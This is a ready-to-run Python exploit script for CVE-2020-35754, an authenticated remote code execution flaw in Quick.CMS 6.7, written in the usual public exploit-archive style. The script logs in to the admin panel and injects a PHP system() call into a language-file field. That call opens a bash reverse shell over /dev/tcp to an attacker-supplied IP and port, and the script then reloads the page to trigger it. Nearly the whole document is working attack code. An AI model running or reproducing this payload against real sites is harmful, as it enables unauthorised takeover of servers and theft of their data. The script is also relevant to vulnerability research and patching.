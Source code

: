 EXP
---

    # Exploit Title: Quick.CMS 6.7 - Remote Code Execution (Authenticated)
    # Date: 2020-12-28
    # Exploit Author: mari0x00
    # Vendor Homepage: https://opensolution.org/
    # Software Link: https://opensolution.org/download/?sFile=Quick.Cms_v6.7-pl.zip
    # Description: https://secator.pl/index.php/2021/01/28/cve-2020-35754-authenticated-rce-in-quick-cms-and-quick-cart/
    # Version: <= 6.7
    # CVE : CVE-2020-35754

    #!/usr/bin/python3

    import requests
    import sys
    from termcolor import colored
    from time import sleep

    print(colored('''###########################################################''',"red"))
    print(colored('''######    Quick.CMS authenticated RCE by mari0x00   #######''',"red"))
    print(colored('''###########################################################''',"red"))
    print("")

    if len(sys.argv) != 6:
        print((colored("[~] Usage : python3 quickpwn.py <url> <username> <password> <IP> <PORT>","red")))
        print((colored("[~] Example: python3 quickpwn.py http://192.168.101.105/quick.cms/ john@example.com pass123 192.168.101.101 4444","red")))
        exit()
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    IP = sys.argv[4]
    PORT = sys.argv[5]


    #Start session
    s = requests.Session()
    headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0'}


    #Authenticate
    print((colored("[+] Attempting user login","blue")))

    login_data = {
        "sEmail": username,
        "sPass": password,
        "bAcceptLicense": "1",
        "iAcceptLicense": "true"
       }

    login = s.post(url+"admin.php?p=login", login_data, headers=headers)
    sleep(0.5)


    #Exploit
    print((colored("[+] Adding shell command","blue")))
    payload = "Back end\\\"; system('/bin/bash -c \\'bash -i >& /dev/tcp/" + IP + "/" + PORT + " 0>&1\\''); //"

    shell = {
        "sOption": "save",
        "Back_end_only": payload
    }

    exploit = s.post(url+"admin.php?p=languages&sLangEdit=en", shell, headers=headers)
    sleep(1)

    #Triggering reverse shell (three times just in case)
    print("")
    print((colored("[+] Triggering the shell. Go nuts!","green")))
    r = s.get(url+"admin.php?p=languages", headers=headers)
    sleep(1)
    r = s.get(url+"admin.php?p=languages", headers=headers)
    sleep(1)
    r = s.get(url+"admin.php?p=languages", headers=headers)